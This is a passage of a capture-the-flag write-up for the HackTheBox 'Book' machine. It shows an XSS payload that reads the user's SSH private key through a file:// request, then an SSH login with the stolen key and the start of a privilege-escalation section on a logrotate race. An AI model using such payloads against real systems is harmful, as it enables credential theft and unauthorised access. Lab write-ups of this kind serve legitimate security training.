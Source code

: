 ![Desktop View]({{ "/assets/img/book/HTB-Images-Book-exploitxss.png" | relative_url }})

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-passwd.png" | relative_url }})

We result the target to gain a foothold : `reader`

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-target.png" | relative_url }})

Now, we try to get her `id_rsa` file from `home/reader/.ssh/`

```
<script>x=new XMLHttpRequest;x.onload=function(){document.write(this.responseText)};x.open("GET","file:///home/reader/.ssh/id_rsa");x.send();</script>
```

Works ! We recover this to attempt cracking password and connect on ssh.

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-id_rsa.png" | relative_url }})

For some reason, the copy-past of the id_rsa from Firefox into new file dont work correctly ...

The issue is resolve when we do this with Chrome.

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-id_rsa2.png" | relative_url }})

### Remote Service SSH login
***
![Desktop View]({{ "/assets/img/book/HTB-Images-Book-nopasswordinkey.png" | relative_url }})

Okay, we need to rebuild the right on the private key to use it correctly.

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-alertkey.png" | relative_url }})

```
$ chmod +x id_rsa_chrome
$ ssh reader@10.10.10.176 -i id_rsa_chrome
```

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-sshreader.png" | relative_url }})

## **<span style='color:#c0392b'>[4] Privilege Escalation - Gain higher-level permissions</span>**
### Race condition on Logrotate
***
The home reader contain 1 folder named `backups` and 1 script `lse.sh`.
The folder backup contain 2 log files only.

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-access-file.png" | relative_url }})

linPEAS scan reveal some privilege-escalation method :

![Desktop View]({{ "/assets/img/book/HTB-Images-Book-linpeas.png" | relative_url }})
